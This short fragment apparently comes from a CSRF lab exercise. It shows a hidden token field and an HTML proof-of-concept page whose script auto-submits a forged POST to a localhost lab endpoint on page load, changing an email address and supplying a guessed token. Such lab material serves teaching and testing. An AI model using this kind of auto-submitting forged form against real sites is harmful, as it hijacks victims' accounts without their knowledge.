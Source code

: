 `<input type="text" name="csrf" id="csrf" value="LQPcrkzt7YAV25" hidden>`

```
<html>
<body>

<form action="http://localhost/labs/csrf0x02.php" method="post">

<input type="text" name="email" value="csrf@mail.com">
<button type="submit">Submit</button>
<input type="text" name="csrf" id="csrf" value="testvalue" hidden>

</form>

<script>
window.onload = function() {
        document.forms[0].submit();
}
</script>

</body>
</html>
```